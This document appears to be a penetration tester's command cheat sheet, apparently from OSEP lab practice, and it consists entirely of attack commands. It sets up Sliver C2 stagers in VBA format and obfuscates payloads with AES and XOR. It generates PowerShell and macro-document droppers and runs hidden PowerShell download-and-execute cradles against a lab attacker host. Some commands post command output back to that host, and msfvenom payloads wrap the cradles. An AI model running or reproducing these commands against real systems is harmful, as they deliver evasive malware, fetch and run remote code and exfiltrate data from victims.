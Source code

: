 profiles new --http 192.168.45.180:8999 --skip-symbols --format shellcode osep
http -l 8999
stage-listener --url tcp://192.168.45.180:9999 --profile osep
generate stager --lhost 192.168.45.180 --lport 9999 --arch amd64 --format vbapplication --save /home/fokt/Documents/OSEP/stager

profiles new --arch x86 --http 192.168.45.180:7999 --skip-symbols --format shellcode osepx86
http -l 7999
stage-listener --url tcp://192.168.45.180:7777 --profile osepx86
generate stager --lhost 192.168.45.180 --lport 7777 --arch x86 --format vbapplication --save /home/fokt/Documents/OSEP/stager


./paychef-lin-arm64 obfuscate-aes -s /home/fokt/Documents/OSEP/stager/COMPETENT_POSTER -k 00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff

./paychef-lin-arm64 obfuscate-xor -s /home/fokt/Documents/OSEP/stager/MAMMOTH_PLAN -x 0xaa

./paychef-lin-arm64 obfuscate-xor -s /home/fokt/Documents/OSEP/stager/AGREED_BITE -x 0xaa

./paychef-lin-arm64 generate-dropper --powershell --payloadUrl http://192.168.45.180:8080

./paychef-lin-arm64 generate-dropper --vba --fileName osep.docm --payloadUrl http://192.168.45.180:8080/osep.txt

./paychef-lin-arm64 run-server -p 8080

xfreerdp3 /v:192.168.203.11 /u:Offsec /p:Lab

powershell -exec bypass -nop -w hidden -File C:\Users\Offsec\Documents\notepad.ps1

powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.180:8080/osep.txt'))


C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.180:8080/osep.txt'))

powershell.exe -Command wget -Uri http://192.168.45.180:7070/ -Method POST -Body $(powershell.exe -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.180:8080/osep.txt')))

C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -exec bypass -nop -File C:\Users\Offsec\Documents\svchostx86.ps1

powershell -Command wget -Uri http://192.168.45.180:7070/ -Method POST -Body $(C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -exec bypass -nop -File C:\Users\Offsec\Documents\svchostx86.ps1)




msfvenom -p windows/x64/exec -f vbapplication CMD="powershell.exe -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.180:8080/osep.txt'))" EXITFUNC=thread

msfvenom -p windows/exec -f vbapplication CMD="powershell.exe -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.180:8080/osep.txt'))" EXITFUNC=thread


msfvenom -p windows/x64/exec -f vbapplication CMD="powershell.exe -c (new-object net.webclient).DownloadString('http://192.168.45.180:8080/osep.txt')" EXITFUNC=thread

msfvenom -p windows/exec -f vbapplication CMD="powershell.exe -c (new-object net.webclient).DownloadString('http://192.168.45.180:8080/osep.txt')" EXITFUNC=thread